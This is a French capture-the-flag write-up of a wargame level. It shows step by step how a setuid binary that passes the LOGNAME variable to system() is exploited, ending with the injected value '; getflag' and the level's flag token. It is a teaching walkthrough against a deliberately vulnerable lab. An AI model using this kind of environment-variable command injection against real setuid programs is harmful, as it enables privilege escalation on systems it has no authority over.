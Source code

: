 Je streamline ma procédure d'identification : 

```
$ id && pwd && ls -la
uid=2007(level07) gid=2007(level07) groups=2007(level07),100(users)
/home/user/level07
total 24
dr-x------ 1 level07 level07  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level07 level07  220 Apr  3  2012 .bash_logout
-r-x------ 1 level07 level07 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
-r-x------ 1 level07 level07  675 Apr  3  2012 .profile
```

J'observe dès le début un binaire `level07`. Comme les précédents niveaux, il est exécuté par le user `flag07` et ça constitue dès lors une vulnérabilité possible.

Il est très important dans le domaine de la sécu de lancer des binaires inconnus :

```
$ ./level07
level07
```

Je l'analyse avec `strings` :

```
$ strings level07
...
GLIBC_2.0
PTRh
UWVS
[^_]
LOGNAME
/bin/echo %s
;*2$"
GCC: (Ubuntu/Linaro 4.6.3-1ubuntu5) 4.6.3
        gid
        uid
/home/user/level07
/usr/include/i386-linux-gnu/bits
/usr/include
...
```

Et trouve cette ligne -> `/bin/echo %s`.
Je ne comprend pas le contexte, notamment ce qui est passé pour `%s`, j'essaye donc avec `ltrace` :

```
$ ltrace ./level07
__libc_start_main(0x8048514, 1, 0xbffff7f4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                                 = 2007
geteuid()                                                                 = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                       = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                       = 0
getenv("LOGNAME")                                                         = "level07"
asprintf(0xbffff744, 0x8048688, 0xbfffff4f, 0xb7e5ee55, 0xb7fed280)       = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                    = 0
+++ exited (status 0) +++
```

J'observe que le programme remplace `%s` par `level07` ici, mais ne sait pas d'où il obtient cette valeur.

A la ligne avant le `asprintf()` et l'appel `system` je note que `getenv()` est appelé avec la valeur `LOGNAME`. Je vérifie donc quelle est sa valeur dans l'environnement actuel :

```
$ echo $LOGNAME
level07
```

Cela me laisse à penser que `%s` est substitué par `LOGNAME`. Je tente de modifier sa valeur pour vérifier l'information :

```
$ export LOGNAME="$(whoami)"
$ ./level07
level07
```

Oups. J'obtiens `level07` à nouveau, puisque je suis `level07`, ou que ça n'a pas marché. Ce test était donc inutile. Je ré-essaye avec l'attente d'un résultat plus déterminant :

```
$ export LOGNAME="42"
$ ./level07
42
```

Avec cette information, je détermine que `LOGNAME` est évalué par `%s` dans le binaire, et j'ai également noté au départ que le programme est exécuté en tant que l'utilisateur `flag07`.

J'espère donc réussir à faire exécuter `getflag` au travers de cette vulnérabilité.

Je tente :

```
$ export LOGNAME="$(getflag)"
$ ./level07
Check flag.Here is your token :
sh: 2: Syntax error: ")" unexpected
```

Je vérifie : 

```
$ getflag
Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)
```

Ce qui me confirme qu'il y a un `)` dans le `getflag` lancé par un user du type `level`, ce qui signifie que : `export LOGNAME="$(getflag)"` est lancé par moi, `level07`, ce qui est probablement une propriété du sub-shell (`$()`).

Afin de ne pas lancer `getflag` dans un sub-shell, je tente une approche qui considère que :

```
/bin/echo %s
```

eEst peut-être lancé en tant qu'une seule string dans le programme, et non comme `%s` étant un argument du binaire `echo`.

Si c'est le cas, ça signifie que cet appel serait transformé en :

```
echo %s
```

et non :

```
echo $LOGNAME
```

ce qui soulignerait une potentielle vulnérabilité dans l'appel système ! Je pourrais donc substituer `%s` par n'importe quel bout de script `bash`.

Je tente donc d'**hacker** l'appel en l'arrêtant prématurément et en injectant un autre appel à `getflag` au sein de `%s` :

```
$ export LOGNAME="; getflag"
$ ./level07

Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

Bingo ! Ici, je fais équivaloir `%s` à un arrêt de l'instruction en cours (donc `echo`, puis lance la suivante : `getflag`, et obtiens donc son résultat)